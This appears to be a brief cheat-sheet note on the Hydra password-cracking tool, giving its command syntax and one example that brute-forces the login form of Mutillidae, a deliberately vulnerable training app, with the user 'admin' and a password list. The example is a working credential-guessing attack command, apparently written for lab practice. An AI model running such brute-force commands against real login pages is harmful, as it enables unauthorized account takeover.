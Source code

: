 # Hydra

## Syntax
```hydra [ip]  -l [usernames] -P [passwords] [service]```

## Example 
```
hydra 10.20.14.212 -l admin -P /root/test.txt http-post-form "/mutillidae/index.php?page=login.php:username=^USER^&password=^PASS^&login-php-submit-button=Login:F=Not Logged In"
```
